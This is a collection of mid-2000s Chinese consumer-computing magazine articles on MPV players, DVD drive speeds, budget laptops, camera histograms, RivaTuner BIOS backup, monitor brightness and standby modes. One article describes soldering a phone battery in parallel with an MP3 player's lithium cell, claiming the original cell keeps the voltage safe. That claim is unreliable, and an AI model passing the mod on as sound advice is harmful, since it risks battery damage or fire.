MPV的背后同样有“标准”在支撑，MPV协议的目的是使普通消费者更方便地在各种电子终端（例如个人电脑、DVD、PDA、数字电视、掌上多媒体播放机等等）上播放和交流音乐、图片以及视频文件。MPV的命名源自英文Music、Photo和Video的首写字母，相应的视频文件扩展名为.MPV，其音频部分使用大家熟知的MPEG Layer - 3编码，视频部分使用Motion JPEG（MJPEG）编码。对MJPEG，大家也许不太熟悉，在本质上它相当于一组连续播放的JPEG图片，因此压缩比很高，当视频分辨率为96 × 96像素时，每分钟的数据量仅在500KB左右，存储一部90分钟的电影大约只需要50MB空间。目前，MJPEG编码已经在数码相机领域得到了广泛的应用，不过这种编码的视频清晰度不高，只适合在小屏幕上播放。目前已有柯达、惠普、LG、奥林巴斯、尼康、飞利浦、三星、索尼等国际知名公司宣布推出支持该标准的数码产品，同时一些软件厂商，例如ACD System、Ahead Software、Ulead Systems等也将在未来产品中支持MPV格式。



火速链接
对MPV标准有兴趣的朋友可以访问(http://www.osta.org/mpv/public/index.html)页面，获取更多的有关MPV标准的细节内容。

### 细品MPV播放器

MPV播放器的存储介质为闪存，内存容量从128MB到512MB不等，屏幕为65K色1.1英寸OLED彩屏，支持的文件格式有MPV、MP3、WMA、PIC图片以及TXT纯文本文件，同时支持录音、A - B复读以及FM收音。其驱动光盘上通常会附带MPV制作工具，如果系统中安装的解码器足够丰富，可以用它把WMV、ASF、MPG、MOV、AVI等格式的文件直接压缩成MPV视频（见图2）。



从以上性能指标可以看出，MPV播放器除了播放MPV视频这一特点，其他功能并不比彩屏MP3更出色，某些细微功能甚至还稍弱，例如个别MPV不支持多任务同步运行，也就是说你在浏览小说或图片时，不能同时欣赏MP3；阅读电子书时只能浏览前200屏等等。另外，MPV的电池通常被封装在机器内部，用户无法自行取出和更换，所以不太适合长时间外出旅行中使用。

当然，支持视频播放是MPV的第一卖点。不过，由此便被某些经销商冠以“MP4”的美名，就实在有点误导群众的嫌疑了。真正的MP4通常内置20GB以上的微硬盘，屏幕普遍使用3 - 4英寸的TFT LCD，显示效果远胜过OLED屏幕，支持的视频格式也非常丰富，PC上流行的WMV、ASF、MPG、AVI，甚至RM都可以直接播放（见图3）。



看来，MPV的硬件配置和功能与MP4相比有较大差距，至于MPV视频的画面质量，笔者只能说恰好与1.1英寸的屏幕相得益彰，而且如果物体运动的较快，还可能出现丢帧现象，这说明它的视频解码芯片性能还不够强劲。不过，MPV相对MP4的最大优点就是体积小巧，容易携带，更适合东方人的审美观和使用习惯。

可见，MPV并非万众期待的MP3和MP4的“中和”产品，其功能虽然比普通的彩屏MP3略强，但却无法媲美MP4，因此MPV注定无法撼动MP4，但震动MP3市场却是必然的。如果MPV的屏幕和内存能够再大一点（看看现在闪存和LCD的行情就知道，这并非难事），对MP3的威胁将更大，但是否就能以此取代MP3的地位呢？现在还很难说，只有留给市场去验证了。

（郑振涛）

## 买光驱的爆笑故事——此52X与彼16X

看着自己那台Pentium3电脑上的52X光驱，在经历了与之几个小时的“殊死”搏斗后，我终于宣布失败——我的光驱正式蒙主宠召了。我的天啊！没有了光驱我怎么听歌啊？过几天就崩溃一次的系统也等着光驱救急重装呢！得！旧的不去新的不来，狠下心咬了咬牙，买就买！伙食费搭进去也不在乎了，谁叫精神粮食的层次要高呢，我们不能总盯着吃饱穿暖这低层次不是？掏了掏钱袋，还有几百块，估摸着也能买台不错的光驱了吧？心头一喜，赶紧就往电脑城跑。

人家都说光驱的转速是越快越好，那个多少X就是指转速，前面的数字越大，就说明转速越快。这不，刚到电脑城，我往一家大卖厂的柜台前一站，对着柜台MM，张嘴就点名要高速光驱，少说要52X的，少了还不好意思见人，整一大腕。那柜台MM听了我的话愣了愣，估计是被我给吓着了。可是她很快就回过神来，笑着问我是要CD光驱还是DVD光驱。我回答自然是DVD，这不新技术嘛！要跟得上国际潮流，最主要的是据说用DVD光驱能看暴多电影，一字儿：爽！但那MM的回答立马让我不乐意了，她说她那卖的DVD有12X的和最高16X的。这不摆明坑我嘛！这么慢，哪个年头的产品哦！就是我那驾鹤归西的老古董CD光驱也有52X啊！这国际新技术，高级货怎么就只16X呢？少说也得百八十X吧！不是想坑我外行是啥！这我可得打起精神喽，怎么着也得摆出点专家的架势来镇一镇她，别以为俺好欺负。我当下就用特严肃、特专业的神态说：“这位MM，你可别坑我，再怎么说我也研究过的。这光驱嘛，就是CD光驱都有52X了，你这DVD怎么就只有16X呢？做人要厚道啊！”听完我的一番高论，MM站那很是诧异地看着我，我心里就笑了：嘿嘿，被揭穿了吧？看你怎么圆场。

《Fan's bound Edition 2005》
389

下台，看你还敢骗俺不？

不过一阵哄笑很快就结束了我的暗自得意，原来是周围几个顾客忍不住笑了出来，有几个已经趴地上了。喂，我说兄弟，就算我揭穿了JS的真面目，你也没必要那么激动吧？想归这样想，可心里总觉得不对劲。回头看那MM，也在一旁掩着嘴，想笑又不敢笑，看起来很辛苦的样子。好不容易等喘过气来的MM强忍着笑意对我说：“这位先生，其实您误解了，CD的速度和DVD的速度不是一回事。它们是有区别的。”这回我终于知道为啥那么多人都在笑了，原来是我犯错误了，亏我刚才还不懂装懂，扮专业教训人家MM，实在是……，汗！柜台MM顺手从柜台下拿起一份宣传资料给我讲了起来。听着听着我终于明白了CD光驱和DVD光驱在速度标称上的区别。

原来由于DVD光驱采用了数据密度更高的光盘存储和读取技术，使得它在1X的情况下每秒钟能读取的数据为1350KB（1MB = 1024KB）。这比CD光驱在1X情况下每秒读取150KB的速度快多了。就好比是一个巨大的挖掘机和一个铲子的区别。52把铲子挖沙的速度，肯定没有16台挖掘机的速度快！（见图1）

可是这个数据密度又是怎么回事啊？听着挺玄乎的，不都光盘嘛！看起来都一个模样，咋就所谓的密度问题呢？其实这光盘虽然看起来都一个样，鲜亮鲜亮的，但是在这光盘上面有许多连续的、人类肉眼看不到的小孔（见图2）。这些小孔通过不同的深浅组合构成了一组组数据。当激光照射它们时就反射出不同折射率的光线，这些光线就是数据的光学表现形式了。接收到这些光波的光驱解码芯片便可以将之还原为数据。孔的数量在DVD光盘和CD光盘上是不同的。在相同面积里，DVD光盘上孔的数量是远远多于CD光盘，要读取这些排列相当密集的数据也就只有通过高精度的DVD激光头才行，这也是为什么CD光驱没法读取DVD光盘的原因。那为什么DVD光驱又能读取CD光盘呢？这是因为DVD光驱的解码芯片是兼容CD数据格式的，而且通过给激光头戴眼镜（改变透镜折射率），或者使用双光头系统来使得激光头可以读取CD光盘上的数据（见图3）。而且DVD激光头的读取能力是CD激光头的几倍，所以DVD光驱在16X下也能达到相当于CD光驱32X、42X甚至52X的读取速度。



图1：挖掘机一样的DVD，可怜D小铲子



图2：CD和DVD的对比



图3：常见的两种规格的DVD激光头（组）

听完MM为我的细心讲解我实在是拨得云开见月明，愿守此景多少时！看着周围顾客善意的微笑目光，我做了一件惊天地、泣鬼神的事，我当着众人的面，拉着MM的小手说：“这DVD多少钱？我……买了！”

（伤心尤加利树）

## 要买本本的你 该何时出手？

去年的笔记本电脑市场价格战，催生了为数众多的低价产品，更促就了笔记本电脑价格的“惊鸿一跳”。似乎在一夜之间，低价笔记本电脑便大行其道，潮水般地在市场上涌现。然而，在跨入2005年后，低价笔记本电脑的呼声，却日益势微。往日生龙活虎的景象，突然变得平淡，原本新品选出的低价笔记本电脑，也难见有任何变化。莫非各家已血拼至尽，低价笔记本电脑市场已渡过了它的“蜜月期”吗？其实不然！翻查这段时间低价笔记本电脑市场的价格变化，不难看出这只是暴风雨来袭之前的宁静。早已被弄得晕头转向、摇摆不定的朋友们此时更不要操之过急，因为一场范围更大、拼杀更激烈的价格与产品更新争夺战，正在悄悄地酝酿中。

### 低价低价 何时最低

很多朋友都在关注着低价笔记本电脑的价格，期盼着这些产品能在今年有进一步的下跌。不过令人遗憾的是，经过去年末的价格战后，几乎所有笔记本电脑厂商，在今年都不约而同地停止了价格战。即便偶尔有一些配置不错、价格低廉的超值产品出现，大多也只是处于“有价无货”的状态，如新蓝那个所谓的3999笔记本电脑就是此种状态的典型。那么这是否代表低价笔记本电脑在价格上已经“降无可降”了呢？谈到这个问题，我们就不得不先来了解一下低价笔记本电脑的成本构成。

大部分消费者都认为低价笔记本电脑之所以低价，主要是因为采用了相对低廉的配置，从而降低了大量成本。但事实上，目前的笔记本电脑产品，在高低端型号的配置差别上，已远没有前几年那样悬殊。在内存、芯片组、硬盘等通用配件的使用上，可以说几乎都是处在同一起点了。低价笔记本电脑在价格上的优势，主要是通过简化一些占成本较大的主要配件和模具设计来达到的。

比如，目前的低价笔记本电脑多采用了售价较低的赛扬M处理器，虽然它不具备迅驰处理器所特有的“变频技术”，能耗较高外，在二级缓存容量上也相应减了一半。但凭借着与迅驰处理器相同的核心架构，在进行主流应用时，与迅驰处理器的速度差距并不很大。而去年液晶面板价格的大幅下滑，也在另一方面造就了低价笔记本电脑。（要知道，在一台普通笔记本电脑中，液晶屏就要占据三分之一的成本。）同样，低价笔记本电脑多半采用代工形式进行生产，只需交纳少量的费用，就可利用代工厂所提供的旧版模具生产，节省近三四百万元的模具研发制作成本。虽然这样在产品的外观上，容易带来过时、同质化的弊端，但这对于一台“重廉不重貌”的低价笔记本电脑来说，无疑是一个无奈却又必然的选择。

正因这些低价产品在配置、外观上的同质化现象日趋严重，又导致了各厂商纷纷杀价，欲以增加销售量的方式，来获得更多的利润，这又进一步导致了低价笔记本电脑价格探底。所以，在众多产品利润微薄的情况下，也就不难解释为何在今年，没有出现更多新型号、更低廉价格的笔记本电脑了。

虽然价格的拼杀已近终点。但今年的低价笔记本电脑，仍然继续保持着下滑的势头。只不过，这次的主角由单纯的价格战，转换为了产品升级战。可以看到，目前各厂商均利用为旧款产品更换Dothan核心的赛扬M处理器、增加独立显卡和赠送第二块电池等卖点，变相地进行了价格的隐性下调。而这种相对来说最实在，也最廉价的节省成本方式，将会被大多数厂商沿用一段时间。直到采用旧版Dothan处理器的中高端产品，在价格上逐步逼近采用赛扬M处理器的低价产品时，才能有所改变。事实上，目前已经有部分厂商，开始以采用Dothan核心迅驰处理器为卖点，来加强对低端市场的争夺了。

### 精简成本 推陈出新

随着今年Intel正式发布Sonoma平台，国内的笔记本电脑厂商便陷入了两难的境地。一方面，需要利用最新的Sonoma平台，对众多消费者产生巨大吸引力。如果及时推出相应合理售价的产品，便可以获得“名利双收”的效果。另一方面，Sonoma平台的推出，将极大地阻碍原有产品的销售。而目前国内笔记本电脑厂商中，所积压的旧款产品绝不是一个小数目，这使大多数厂商都倍感压力。

与此相反，一些在去年开始加入到国内低价笔记本电脑市场争夺的国际品牌，利用其灵活的代工模式，完全抛开了库存压力的影响，同时在高中低三线，全力出击Sonoma平台产品。尤其是利用新平台多样的配置组合，所推出的Dothan核心赛扬M处理器加低端910GML芯片组，并搭配单通道DDR内存设计的“简化版”产品，以拥有Sonoma“血统”为卖点；辅以低价优势，受到了普通消费者的极大关注。可以看出，这种低价产品的配置组合，颇具灵活性。而在笔记本电脑市场占据绝对优势地位的Intel，也正欲借此组合，来作为今年低价笔记本电脑的新配置标准，全面推动低价笔记本电脑的升级换代。



图1 左为厦新V7系列笔记本电脑，右为长城T2000系列笔记本电脑；两台笔记本电脑所采用的模具是一样的，因此其外观也是一模一样的，而这样的产品在市场上比比皆是



图2 联宝CL50笔记本电脑采用Dothan核心迅驰处理器，并带有独立ATi 9000显卡，但售价却只有7600元，很典型的产品升级战产物

厂商手中低价产品存货陆续抛清，它们将会紧追国际厂商的脚步，将新款低价笔记本电脑全面过渡到廉价Sonoma平台上。而之前剩余的大量中高端迅驰产品，势必会逐步降到7~8千元价位，弥补市场空白的同时降低库存压力。届时，市场中将会出现廉价Sonoma产品与同样价格不高的迅驰机型共处的局面，竞争将会更加激烈。而在那时，我们将迎来低价笔记本电脑的又一次降价浪潮。在此之前，我们所需要的的就是等待。

### 典型代表 适用广泛

如果你正需要一台笔记本电脑，而同时又没有足够的资金去选购那些外观时尚、性能优异，又价格不菲的高端笔记本电脑，那么，现在你完全可以从市场中已销售的，具备多种不同规格的低价笔记本电脑产品中，挑选到一款能够满足大多数主流应用需要的低价产品。

### 学生朋友的廉价之选——戴尔 Inspiron2200



- 参考价格:5999元
- CPU:赛扬-M 1.3GHz(Dothan核心)
- 芯片组:Intel 910GML
- 内存:256MB DDR
- 硬盘:30GB (4200转/分钟)
- 显示屏:14.1英寸XGA
- 光驱:8X DVD-ROM
- 重量:2.72公斤

利用特有的直销模式，戴尔几乎没有任何库存压力。也正因如此，其在新款产品的推动中，始终保持着领先者的角色。在其他厂商还在为清理旧款产品苦苦挣扎时，它采用低端Intel 910GML芯片组+赛扬M处理器的廉价Sonoma平台，却以不到6千元的价格，早早地摆上了销售柜台。在较以往产品低廉的售价下，这款戴尔Inspiron2200却具备了更高的性能表现。它采用了Dothan核心1.3GHz赛扬M处理器，利用Intel 910GML芯片组内建的GMA900增强型图形核心，甚至可使学生朋友在学习之余尽情地玩上一些高品质的3D游戏。而内置802.11b/g无线网卡，则更是戴尔产品一贯的风格。借助于此，便可使目前大多数校园都已开通的无线网络得到最充分的利用。但不得不提醒大家的是，该机采用的是镍氢电池，而非锂电池，性能的差别是不能同日而语的。

### 办公用户的安全保证——IBM R50e 48C



- 参考价格:7999元
- CPU:赛扬-M 1.3GHz
- 芯片组:Intel 855GME
- 内存:256MB DDR
- 硬盘:30GB(4200转/分钟)
- 显示屏:14.1英寸XGA
- 光驱:8X DVD-ROM
- 重量:2.7公斤

IBM向来都是品质与高贵的象征。但在与联想结合后，面对国内低价笔记本电脑流行的趋势，也相应推出了一些高质低价的机型，以此来“顺应民意”。该机型是采用中高端的R50系列模具的低配机型，将迅驰处理器更换为性能略低但更具价格优势的赛扬M处理器，以降低整机的成本。而在其他配置上，该机仍然采用了855GME增强型芯片组，较其他低价产品更具性能优势。此外，IBM一贯的坚固品质，也没有因成本控制而出现打折的现象。多项著名的数据保护技术、特殊的制造工艺及高效快捷的管理功能都融入其中，使这款售价不足8千元的IBM R50e 48C，呈现出了非常超值的一面。

### 家庭娱乐的全面产品——惠普 NX6120


- 参考价格:8600元
- CPU:赛扬-M 1.4GHz(Dothan核心)
- 芯片组:Intel 915GM
- 内存:256MB DDR
- 硬盘:40GB(5400转/分钟)
- 显示屏:15英寸XGA
- 光驱:8X DVD-ROM
- 重量:2.7公斤

作为国际品牌，惠普在国内的低价笔记本电脑市场中，表现得相当活跃。在推出颇具性价比的M2000系列产品后，惠普又赶在第一时间，带来了这款售价8600元的Sonoma新品——NX6120。从这款产品的配置上看，它除了没有采用迅驰处理器外，在其他配置上，NX6120几乎与目前售价在万元以上的Sonoma平台产品没有任何区别。尤其是其所采用的915GM芯片组，较之低端简化版的910GML，在集成的显示核心上具备更高的频率。配合高速硬盘(5400转/分钟)、品质极佳的音响设计及15英寸的大屏显示，无论是进行高品质的3D游戏，还是观看清晰的DVD影碟，均可胜任有余。而内置的读卡器等接口配备，更为其连接数码设备提供了极大的便利，完全称得上是一款性能与功能完美结合的低价娱乐机型。

(刀鱼工作室 半条死鱼)

## 数码相机进阶应用——直方图，准确曝光的好帮手

### 直方图的含义

随着数码相机(以下简称DC)图像处理技术的不断发展，越来越多的相机内置了直方图的功能。虽然直方图对初学者来说，还很陌生。但它却早已存在于我们的生活、工作中。如在著名的图像处理软件Photoshop里面，对应直方图的命令就是Histogram(中文版为“直方图”)。

在一张图片的直方图中，横轴代表的是图像中的亮度，由左向右，从全黑逐渐过渡到全白；纵轴代表的则是图像中处于这个亮度范围的像素的相对数量。在这样一张二维的坐标系上，我们便可以对一张图片的明暗程度有一个准确的了解。在Photoshop中，依次单击“图像→调整→色阶(快捷键:Ctrl+L)”即可打开色阶调整框，对图像的直方图进行调整，以此控制图像的明暗变化。



### 直方图的特性

DC中的直方图功能与Photoshop中是一样的。当直方图中的黑色色块偏向于左边时，说明这张照片的整体色调偏暗，也可以理解为照片欠曝。而当黑色色块集中在右边时，说明这张照片整体色调偏亮，除非是特殊构图需要，否则我们可以理解为照片过曝。下面，我们就用几张照片来直观地理解直方图所反映的图像特性。

图2是一张正常曝光的建筑物照片及其对应的直方图。我们可以看到，在直方图中比较靠左的位置，波峰比较高而且比较密集，这是因为建筑物的背影有较多的暗部区域，而直方图中左侧的位置正是反映暗部区域的分布情况的。在直方图中央偏右的位置，我们又可以看到一个较高的波峰，这是因为图像中大片的黄色区域所对应的亮度正在这里。在直方图的最右端，我们可以看到一个较小且突出的波峰，对应在图像中，代表的就是建筑物上圆柱体的强烈反光，由于亮度太大，超出了直方图所能表示的范围，所以便体现在最右端形成了一个波峰。根据直方图所表达的内容，这张图片的亮度基本都在其所能表现的范围内，并没有太多的溢出部分。更为关键的是，这张图片中各个物体的亮度，是符合我们的一般认识的，可以认为，这张图片的曝光是比较准确的。



在相同的情况下，如果我们拍摄的时候增加或者减少了曝光量，那么就会得到如图3、图4的结果:





在图3和图4中，我们可以清楚地看到。如果增加曝光量，那么直方图中左侧表现暗部的部分几乎为一片空白。而如果减少曝光量，那么在直方图中就可以看到相反的结果。这样，如果我们看到了一张直方图，那么即使不看图像，也可以对它的明暗程度有一个准确的认识。

需要指出的是，并不是直方图中波峰居中且比较均匀的图像才是曝光合适的，判断一张图像的曝光是否准确，关键还是看它是否准确地体现出拍摄者的意图。比如通常的夜景图片，在直方图中就是暗部区域的波峰居多。以图5为例，直方图中的大片黑色都集中在左侧区域，说明图像中的暗影部分很多，这也符合人们对夜景的一般概念。还有## 实战直方图

在了解直方图的基本概念和表达的信息之后，我们如何才能将相关的知识应用到日常照片的拍摄中去呢？毕竟DC的EVF取景器和LCD液晶取景屏，都受到了本身亮度、色彩饱和度以及锐度等显示特性的限制，在对图像的表现上总会与实际存在一定的差异，直接影响我们对照片明暗程度（曝光量）的准确判断和选择。而直方图的出现，则正好补充了这点不足。具体说来，直方图在DC中的应用可以分成两方面：一方面是可以 在拍摄后检查图像的曝光情况；另一方面，就是在拍摄者按下快门前，给拍摄者提供一个准确的画面明暗分布参考，拍摄者能根据实际需要对曝光参数进行调整，保证照片的曝光准确性。那么，我们就来具体讲解一下如何在拍摄中更合理地利用直方图这项功能，获得曝光准确的摄影作品。

## 1. 怎么使用直方图？

目前的主流相机大多具备直方图的功能，以SONY F828数码相机为例。该机在拍摄前，根据取景的不同，在相机的LCD取景屏上可以即时地显示对应的直方图信息（见图6）。如果当前直方图显示暗部信息过多，说明图像曝光不足，拍摄者就可以适当地增加曝光，使直方图中的曲线整体向右平移，从而得到正确的曝光。并可根据随时变化的直方图，确定是否已经调整到合适的曝光参数。反之亦然。这样，我们可以根据相机内置的直方图功能了解到将要得到的图片的曝光量大小，那么，如何利用进一步调整从而可以看到色阶分布均匀的直方图呢？



## 2. 曝光量的调整

为了得到曝光合适的摄影作品，我们可以运用各种方法来改变曝光参数，直到直方图显示的图像的色阶分布达到我们的拍摄目的。下面将通过三个例子来给大家演示如何运用不同的拍摄技术达到准确曝光的目的（注：为更清晰地表现直方图，本文例子将用Photoshop中的直方图进行表示）。

### 方法一：利用曝光补偿功能，直接调整曝光量

图7是香港铜锣湾热闹的夜市灯光，整个画面以各种灯箱招牌、霓虹灯为主。直方图的两个曲线波峰分别集中在两侧并溢出，这说明照片的明暗反差过高，画面中的亮部、暗部画面的细节都将会产生不可逆转的损失。通过分析当时的情况，很容易看出很多景物都被“隐藏”在直方图的暗部区域中，没有得到表现。这时，我们通过增加0.3~0.7个曝光补偿（+EV）即可得到图8的效果。可以看到，刚才漆黑一片的景象已经增加了很多细节，而整个图像的表现也比较接近肉眼的感觉了。此时，如果再增加0.3~0.7个曝光补偿（+EV），就会得到像图9这样的效果：图像明亮了许多，但是暗部噪点明显增多，整个画面也全无夜景的氛围了。因此，如果像图9这样曝光，暗部的细节确实可以得到很充分的体现，但是亮部过曝太多，图像效果反而不好，这就是过犹不及的道理。因此，如果我们在直方图上看到了像图9这样的过曝所造成的亮部细节丢失严重的问题时，就可以通过减0.3~0.7个曝光补偿（-EV）来修正，以得到如图8的效果。







现在很多相机都提供了类似的曝光补偿功能快捷键，如果没有的话，也可在相机的菜单中找到相应选项。

### 方法二：灵活使用测光方式

相机的曝光量是由其内置的测光程序在确定亮度等数据之后，结合机内的曝光数据计算得到的。在通常情况下，默认的测光程序都是中央重点测光，这种测光模式在多数情况下都可以得到正确的曝光参数。但是也有例外的情况，这时，我们就可以利用相机的点测光功能，并针对亮度为中性灰（近似于亮与暗的中间地带）的区域测光得到可以满足多数条件下合适的曝光参数。类似的测光方法还有多点测光等，要根据相机的具体功能，并结合使用经验加以应用。

### 方法三：直接调整曝光参数

经验丰富的拍摄者则更可根据直方图的数据，大体估测出应该补偿的曝光量，手动对光圈、快门等曝光参数进行调整。不仅可以得到合适的曝光量，而且还可以根据实际的情况，结合景深、曝光速度的考虑得到更为合理的曝光参数。

改变曝光量的方法有很多，但无论采用何种方法，关键是要了解直方图的含义，才能确保在拍摄前对自己的拍摄结果做到心中有数，从而拍摄到色阶分布合理的图像。

## 3. 使用直方图的真正含义

参考直方图信息确定曝光参数的真正含义是直接透视图像的内部信息，从而获得最合适的曝光参数，完全不会受到EVF或者LCD本身显示效果与实际图像曝光量差异的影响。由于图像相关的输入输出设备的物理特性都不一致，特别是在家用的环境中，更难得到一个严格意义上的统一的色彩描述，这也是造成我们拍摄时和拍摄后浏览、打印时所见并非所得的原因，而直方图抛开了图像表层的表现，以真实可靠的数据给我们一个可以量化的标准用于后期的输出。所以，要想成为一名小有水准的摄影爱好者，对直方图的了解是必不可少的。

通过上面的讲解，大家或许会觉得直方图并不复杂，但是如果要在实际中得心应手地加以应用，就需要大量地练习和观察，不断从实践中获得经验。而了解直方图的含义，更可以为你对摄影作品进行合理的后期处理打下坚实的理论基础。那么，现在就请拿出您的DC，尽情体会直方图为您带来的拍摄新体验吧！

## 在Windows下巧用RivaTuner备份显卡BIOS

很多朋友在升级显卡BIOS前都会对显卡当前BIOS进行备份，而一般我们备份显卡BIOS文件的方法，都是先把专用的Nvflash.exe程序放在某个分区的根目录上，再进入DOS，使用“nvflash -b old.rom”指令进行备份。这种方法其实也不难，但对于很多没有经历过DOS时代的用户来说，就不是那么“心甘情愿”了，毕竟DOS的指令并不是那么好记的。那还有什么更简单直接的办法来备份显卡BIOS呢？最近笔者在超频实验中发现，其实常用来修改和超频显卡的工具——RivaTuner也可以对显卡BIOS进行备份，而且还是在Windows状态下进行操作，非常简单。



- 第一步：安装原版的RivaTuner（一些不必安装的汉化和绿色版本在执行操作时会失败），这时程序会在桌面生成一个快捷方式。
- 第二步：右键单击桌面的快捷方式，选择“属性”进入快捷方式的属性窗口。在“目标”栏中，加入“/BI”参数（注意：参数前需要加一个空格），单击确定按钮退出属性窗口。
- 第三步：双击修改过的快捷方式，即马上进行自动备份操作，结束后程序会给出相应提示，如图2。
- 第四步：进入RivaTuner安装目录，找到显卡BIOS的备份文件，收藏好即可。



最后，再将快捷方式里面的“/BI”参数去掉，又或者将该快捷方式重命名为“显卡BIOS备份”复制到RivaTuner安装目录中保存下来，以便日后使用。看，是不是很简单？赶快动手试试吧。



## 让 MP3 连续 23 小时播放——电池升级手记

去年 5 月份，MP3 大降价，我“一时冲动”购买了一款多功能的杂牌 MP3(见图 1)。这款 MP3 集众多功能于一身，既能播放音乐，又能看电子书，我每天一有空就用它欣赏音乐，或看看小说，听听评书什么的，极大地丰富了业余生活。刚开始使用时，MP3 的电池能连续供电四个小时左右，但被我“折磨”了几个月后内置锂电池的性能明显下降，只能靠增加充电次数来保证 MP3 的正常工作。如此这般便引起了恶性循环，频繁的充电使 MP3 电池的使用时间很快降到了 1 小时以下。如此下去 MP3 将面临报废的危险。为了挽救 MP3，我准备自己动手给 MP3 的电池“升升级”。



## 升级方案

用万用表测得我的 MP3 电池电压为 3 伏，而一般的手机电池电压均为 3.5 伏左右。手机电池的电压比 MP3 电池的电压要高 0.5 伏，考虑到充电电池可以承受略高于额定电压的充电电压，因此只要把手机电池和原 MP3 电池并联，MP3 电池就能起到限制电压的作用，使输出的电压保持在安全范围之内，这样不必担心 MP3 被烧坏了。正好，我抽屉里那块闲置了很久的诺基亚 7210 电池(电压：3.5 伏)；此时也能派上用场。想到这里，我决定给 MP3 加块手机电池，升级我的 MP3。

## 升级改造

### 1. 准备

- 材料：大小合适的手机电池一块，细电线、双面胶若干。
- 工具：电烙铁、万用表。

电池其实还可以用小灵通电池，因为小灵通电池体积更小，厚度也较薄。电线要用外面涂有绝缘层的细导线，推荐用耳机线里的细导线，直径小，韧性好。



- 2. 拆开 MP3 的面板，可以看到液晶屏，A 处芯片是 TOSHIBA(东芝)闪存；B 处芯片是 MP3 的固件芯片(相当于主板的 BIOS 芯片，用于储存 MP3 的操作系统)，见图 2。
- 3. 小心取出机芯，可以看见机芯由两部分组成。标着 Sunplus SPCA7550 的芯片是 MP3 的解码芯片，芯片上方就是安放内置锂电池的位置。剥开银色内置锂电池上的透明胶(竟然用透明胶，杂牌就是杂牌！)，可以看见电池的电极(见图 3)。



- 4. 拆开手机电池，把两根细导线分别焊到手机电池的正负极上(见图 4)。这里要注意：我所使用的手机电池芯的金属外壳是正极，顶上的突出物是负极(要揭开电池芯上的电路板才能看见)，焊接前一定要用万用表测明电压和正负极。



- 5. 先将细电线穿过 MP3 的外壳，再把手机电池并联到 MP3 电池上(见图 5)。



- 6. 把 MP3 装好，收紧导线，用双面胶把手机电池贴到 MP3 背后(注意要把电池裸露的触点朝外，这样才可以直接使用手机座充来充电)。最后，再用与 MP3 颜色相近的塑料纸和玻璃胶修饰一下裸露着的电线和电池即可(见图 6)。

MP3 改造完成之后我们来检验一下成果：按下 ON 键打开电源，开机正常！关机，把 MP3 放到手机充电器上(见图 7)，充电器工作正常！用 MP3 原配充电器和 USB 充电器也都能正常充电。



再经过近几个月的使用，并未发现有任何异常，MP3 电池升级后，播放时间可达 23 小时，升级可以说是非常成功的！但在这里我还要提醒大家，使用此方法一定要小心：手机电池的电压大致是统一的，但不同品牌、型号的 MP3，电池电压未必相同。所以在加装电池前一定要用万用表检查手机电池和 MP3 电池的电压和极性，如果搞错电压很可能会烧坏 MP3 的。



## 小知识

目前的 MP3 市场，主流的解码芯片有 Philips(飞利浦)、Sigmatel、Telechip、Samsung(三星)等几家。其中 Philips 的 SAA7750/SAA7751 是音质最好、功能强且最稳定的了，是韩国高端机的首选；而当前应用最为广泛，也比较成熟的就是 Sigmatel 的 STMP3410/1342/3520，无论从高端到低端都有厂商在采用；然而来自韩国的 Telechip 的 TCC730/TCC731，在韩国众厂商的努力下，已经慢慢完善成熟，其音质和功能也紧跟在 Philips SAA7750/SAA7751 后面；来自台湾的 Sunplus(凌阳)，从功能上来看还是很强大的，但音质表现平淡，个别功能尚不完善，目前还只是徘徊在相对低端的市场上。

(Blue sky)

## 显示器“低亮”怎么办？

女友去年贪便宜买了一个杂牌液晶显示器来用。当初只是用它在家里打打字、聊聊天而已，但是最近女友却突然开始痴迷游戏了。虽然液晶显示器的反应稍微慢点，在使用中会有一些拖影，但是女友还是喜欢用这显示器来玩各种游戏，感觉问题也不大。不过最近女友却开始抱怨这台液晶显示器在玩 CS、英雄本色 2 和三国无双等游戏的时候画面昏暗，即使将显示器亮度开到最大也无法看见躲在阴暗角落里的敌人。怎么办呢？硬的不行，软的来试试，嘿！还真搞定了。

调整的方法很简单，就是使用 Geforce FX5800 显卡驱动程序中自带的彩色校正来调节屏幕亮度。在控制面板中依次单击“显示→设置→高级→Geforce FX5800”打开 nVIDIA 的显卡驱动控制面板。在显卡驱动控制面板中，进入“色彩校正”菜单，在“将颜色变更应用于”选项上选择“全部”，并适当提高亮度、对比度、灰度，将桌面的颜色调到比较满意的程度为止，保存为一般状态。必要时，你还可以调整“数字振动”来提高亮度。继续将亮度和灰度略微提高，然后进入要打的游戏反复调整，满意后将方案另存为所调整的游戏的名字。因为一些不同的游戏在亮度上可能会稍有差别，所以这样可以在需要的时候准确地找到自己需要的游戏亮度设置。仅仅这样还不能够满足女友在白天看电影的需要，过去女友常常抱怨白天的阳光在房间里干扰得她无法清晰地看电影，那就这次一起解决吧。笔者先打开一段视频文件，然后再次进入“色彩校正”菜单，在“将颜色变更应用于”选项上选择“重叠”，适当调节亮度和对比度，直到自己满意为止，另存为“电影 01”。这时，当我们要玩游戏时，就会先进入这个“色彩校正”选项，调出相应的配置文件。在看电影时，则会调出之前配置好的“电影 01”配置文件来调整显示器的亮度。而在平时操作中，则使用系统默认的配置文件。

需要注意的是，去年夏天以后发布的 nVIDIA 显卡驱动才具备这样的色彩调节功能，而旧版驱动中的“重叠”选项被叫做“重叠/VMR”，而且不能够调节 RMVB 格式文件的播放亮度，而新版驱动中无论 VCD、DVD、MPEG、ASF、RM 还是 RMVB 都能够被调节亮度，建议还在使用老驱动程序的朋友赶快更新升级。

这样的做法虽然有提高液晶显示器亮度的作用，但是同时也给液晶显示器的灯管增加了一定的压力。理论上讲，长时间使用这样的“高亮度”会导致液晶显示器的灯管寿命缩短，并因为显示器灯管的发热增加影响液晶屏的寿命，虽然这个过程很漫长，但是为了自己的爱机的健康，希望各位还是在游戏和看片等有需要的时候再开启“高亮设置”的设置。

(流浪的火焰)

## 关于待机、休眠的经典问答

- 问: 待机、休眠有这么多好处，还要关机干啥？直接把休眠改为关机不是更好吗？
- 答: 虽然待机、休眠优点都很明显，但对硬件和系统都要求支持ACPI/APM，如果支持不好的硬件或系统上强行使用待机、休眠功能，很容易丢失数据，系统不稳定甚至崩溃；同时，只有在真正关机的情况下，才可以进行硬件改动，比如更换设备，加内存升级等，因此它们都不能取代关机。

- 问: 不小心在“开始→关机”中的“待机”给弄丢了，请问该如何恢复？
